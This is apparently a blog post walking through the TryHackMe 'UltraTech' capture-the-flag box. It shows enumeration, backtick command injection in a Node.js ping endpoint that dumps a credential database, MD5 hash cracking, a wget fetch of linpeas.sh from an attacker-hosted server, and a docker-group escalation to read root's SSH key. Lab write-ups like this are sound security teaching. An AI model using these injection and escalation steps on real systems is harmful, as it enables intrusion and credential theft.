 ```yaml
---
layout: post
title: " UltraTech - TryHackMe"
date: 2020-07-15
ctf: true
excerpt: "Walkthrough for UltraTech on TryHackme"
tags: [UltraTech, TryHackMe, node.js API, docker, hash cracking]
comments: false
---
```


UltraTech is a medium difficult box on [TryHackMe](https://www.tryhackme.com). Below are the steps I took to fully compromise this box.

Task 1 just requires deploying the machine, there is no challenge to solve.

### Task 2

First, let's run enumeration, the questions hint that non standard ports are used, so I ran **nmap -p- [machine ip]**. This took a bit to run since it was enumerating all the services on each port over the entire TCP port range. After a while, it returned the following results.

![UltraTech nmap1](/assets/img/UltraTech1.png)

Now lets run **nmap -A -p 21,22,8081,31331,35143 [machine ip]**  to enumerate these services further, which gets you the following information.

![UltraTech nmap2](/assets/img/UltraTech2.png)

We should now be able to answer some of the questions for this task. **Question 1** is shown above, which is node.js. **Question 2** is going to be the port Apache is running on that is not standard, which is the name of the service that answers **Question 3**.

**Question 4** is also in the scan above, which includes the name of the OS.

**Question 5** probably has several ways to figure it out, but I decided to enumerate the website on port 31331 to see what all was there. I enumerated the website with **gobuster dir -u http://[machine ip]:31331 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50**. Within a few moments, several directories showed up.

![UltraTech gobuster](/assets/img/UltraTech3.png)

Let's start looking at these directories. Since we know node.js is running, let's go to the **/js** directory first. 

![](/assets/img/UltraTech4.png)

This lists 3 different JavaScript files. Let's take a look at api.js.

![UltraTech api.js](/assets/img/UltraTech5.png)

This provides us with the answer to the question related to routes, as this script references port 8081 (where Node.js is setup). The two URLs indicated above are the routes that are in place, so the answer to this question is **2**. The other two files are just JavaScript scripts, and do not reference Node.js at all.

### Task 3

Now that we know the routes, it appears one of them is used for authentication. Let's see if we can figure out how to login. Visiting **http://[machine ip]:8081/auth** tells you you must specify a login and a password. Let's add in these two fields (login and password) to a request and see what happens. Let's use **http://[machine-ip]/auth?login=root&password=root**. It appears this request is in the correct format, as it tells us we're using invalid credentials.

![UltraTech auth](/assets/img/UltraTech6.png)

Next, let's look at the other route of **http://[machine ip]:8081/ping?ip=**. Let's use the backtick here to and enter in another command to see if we can perform command injection. I elected to use **http://[machine ip]:8081/ping?ip=\`whoami\`**.

![UltraTech node.js command injection whoami](/assets/img/UltraTech7.png)

Success! It returned a user of **www**. Next, let's see what's in the current directory with **http://[machine ip]:8081/ping?ip=\`ls\`**.

![UltraTech node.js command injection ls](/assets/img/UltraTech8.png)

This would be the answer to **Question 1** for Task 3.

It appears there is a sqlite database present. Let's view the contents with **http://[machine ip]:8081/ping?ip=\`cat [database name]\`**.

![UltraTech node.js command injection cat](/assets/img/UltraTech9.png)

This provides you with the hashes for two users, **r00t**, and **admin**. The hash for r00t is the answer to **Question 2** for Task 3Let's save their hashes to a text file named **hashes.txt**, one per line and see if we can crack them. Once saved, let's run the following command **john hashes.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt**.

![UltraTech john](/assets/img/UltraTech10.png)

This will give you the credentials for both users. The password for r00t is the answer to **Question 3** for Task 3.

### Task 4

Next,  let's connect with **ssh r00t@[machine ip]** and enter the password we had cracked a few moments ago. The final task wants us to get root's first 9 characters of their private SSH key. Let's spin up a python server locally on our attacker pc with **python3 -m http.server**. From the victim PC, type in **wget http://[attacker machine ip]:8000/linpeas.sh**. Once downloaded, run **chmod +x linpeas.sh** and run it with **./linpeas.sh**.

![UltraTech linpeas.sh](/assets/img/UltraTech13.png)

Right at the very beginning, we find out that r00t is a member of the docker group. We could potentially escalate to root with this by following what is on the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) site for docker. However, since this machine doesn't have internet access, let's first list what images are available locally with **docker image ls**

![UltraTech docker image ls](/assets/img/UltraTech14.png)

Now, let's modify the command on the GTFOBins site above from docker run -v /:/mnt --rm -it alpine chroot /mnt sh to **docker run -v /:/mnt --rm -it bash chroot /mnt sh**. From here, navigate to the ssh keys folder with root with **cd root, cd .ssh** and **cat id_rsa** to answer **Question 1** for Task 4 and complete this box.

![](/assets/img/UltraTech15.png)
